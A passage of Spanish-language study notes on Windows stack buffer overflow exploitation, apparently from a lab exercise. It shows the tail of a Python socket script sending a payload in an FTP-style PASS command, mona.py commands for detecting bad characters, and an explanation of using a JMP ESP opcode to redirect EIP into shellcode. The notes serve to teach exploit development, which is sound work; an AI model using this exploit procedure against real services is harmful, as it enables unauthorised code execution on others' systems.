 ```python
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```

lanzamos el script

![[Pasted image 20231019172959.png]]

copiar el **ESP**

y en **mona** realizar lo siguiente

```
!mona compare -a <esp> -f C:\Users\<usuario>\Desktop\Analysis\bytearray.bin
```

Podemos ver los **BadChars**

![[Pasted image 20231019173334.png]]

para quitarlos

```
!mona bytearray -cpb "\x00\x0a"
```

realizar esto hasta que no encuentre **BadChars**

![[Pasted image 20231019175244.png]]

Con esto ya sabemos cuales son los caracteres los cuales excluir
__________________________
**Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode**
________________________________
Una vez que se ha generado el shellcode malicioso y se han detectado los badchars, el siguiente paso es hacer que el flujo del programa entre en el shellcode para que sea interpretado. La idea es hacer que el registro EIP apunte a una dirección de memoria donde se aplique un **opcode** que realice un salto al registro **ESP** (**JMP ESP**), que es donde se encuentra el shellcode. Esto es así dado que de primeras no podemos hacer que el EIP apunte directamente a nuestro shellcode.

Para encontrar el opcode **JMP ESP**, se pueden utilizar diferentes herramientas, como **mona.py**, que permite buscar opcodes en módulos específicos de la memoria del programa objetivo. Una vez que se ha encontrado el opcode ‘**JMP ESP**‘, se puede sobrescribir el valor del registro EIP con la dirección de memoria donde se encuentra el opcode, lo que permitirá saltar al registro ESP y ejecutar el shellcode malicioso.

La búsqueda de opcodes para entrar al registro ESP y cargar el shellcode es una técnica utilizada para hacer que el flujo del programa entre en el shellcode para que sea interpretado. Se utiliza el opcode JMP ESP para saltar a la dirección de memoria del registro ESP, donde se encuentra el shellcode.
______________________________
